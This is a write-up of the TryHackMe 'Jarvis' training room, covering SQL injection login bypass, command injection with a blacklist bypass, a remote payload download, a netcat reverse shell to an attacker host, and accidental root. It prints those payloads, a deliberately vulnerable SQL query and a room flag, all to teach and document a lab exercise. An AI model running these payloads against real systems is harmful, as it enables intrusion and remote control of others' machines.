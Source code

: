 TryHackMe: Jarvis — SQLi to RCE to Accidental Root (CTF-Style)

The Jarvis room on TryHackMe was designed to teach basic SQL injection techniques within a structured CTF format, where each solved task yields a flag. While the original room walks you through with helpful hints and step-by-step questions, I chose to tackle it without relying on them — exploring the machine organically and pushing its boundaries.

That decision led to an unexpected outcome: I not only uncovered all the intended flags, but also rooted the entire box and discovered a secret flag that wasn’t referenced in any other write-ups I read. Interestingly, it seems even the room author may not have realized that this box could be rooted via an RCE chain. We’ll walk through that full exploitation path here.
🔍 Initial Recon

As always, I kicked off with enumeration:

nmap -sC -sV -oA nmap/nmap <target_ip>

Nmap revealed an Ubuntu server with up-to-date services. The HTTP server looked interesting, so I started poking around with gobuster while simultaneously checking the HTML source.

gobuster dir -u http://<target_ip> -w /path/to/raft-small-words.txt -o gobuster_output.txt

💡 Pro Tip: Always have background enumeration running. SecLists is a great resource for wordlists.
💻 Web Source Enumeration

Viewing the root page source, a few developer comments popped up, one of which contained a link to a script holding the first flag. This reinforced a pattern: always inspect HTML source code, especially on CTF-style boxes.
🧬 SQL Injection

Navigating to /portal, we spotted another juicy comment mentioning SQLi. Testing the login form with a classic payload:

' OR 1=1-- -

💥 Instant access.

Inside, we find a command execution interface — clearly vulnerable to command injection. Attempting a reverse shell using pentestmonkey payloads failed due to a blacklist, but harmless commands like ls and cd worked.
📂 Post-Login Enumeration

Command injection allowed access to internal files. Listing the directories, I found:

create.sql
node_modules/
server.js
flag5.txt

But trying to cat flag5.txt triggered a "Command disallowed" message.

✅ Workaround: less flag5.txt bypassed the filter and revealed the flag.
💣 RCE → Reverse Shell

At this point, I wasn't aware that rooting the box wasn’t intended. I kept pushing.

Blacklisted commands like nc, bash, python, and curl were blocked directly. To bypass, I created an indirect payload file using only allowed commands:

echo 'url http://<attacker_ip>/rev -o /tmp/rev' > /tmp/malicious_command
sed -i '1s/^/cu/' /tmp/malicious_command
chmod +x /tmp/malicious_command

That results in:

curl http://<attacker_ip>/rev -o /tmp/rev

📡 Hosting the rev payload with Python:

sudo python3 -m http.server 80

Payload content:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <attacker_port> >/tmp/f

After executing /tmp/malicious_command then /tmp/rev...

🎉 Shell obtained!
🏁 Unexpected: Already Root?

Running whoami returned root. That’s right — the web server was executing commands as root, a critical misconfiguration. Web apps should never run as root. They should run under constrained users like www-data.

From here, I pulled all the flags directly:

find / 2>/dev/null | grep -i flag | grep .txt
grep -r flag2 /home

🧪 Secret Flag & Server-Side Insights

Curious about the command blacklist, I inspected /home/ubuntu/avengers/server.js.

💎 Jackpot: A hardcoded list of blacklisted commands — confirming how commands like nc, curl, and bash were filtered.

🎁 Also found: MySQL credentials + a secret flag in the codebase:

flag4: sanitize_queries_mr_stark

The SQLi vulnerability stemmed from deliberately vulnerable code:

con.query('SELECT * FROM users WHERE username = ' + username + ' AND password = ' + password)

The usual prepared statements were commented out. This allowed classic injection using ' OR 1=1-- - to bypass authentication entirely.
🧠 Final Thoughts

This box was a blast. What was meant to be a basic SQLi tutorial turned into a deep dive into:

    SQL Injection exploitation

    HTML source code leaks

    Command injection with filtering

    Creative RCE bypass

    Accidental root via misconfiguration

    Source code review for secrets

Despite being labeled Easy, Jarvis taught practical web exploitation, lateral thinking, and the importance of privilege boundaries. The unintended root access made it all the more exciting.
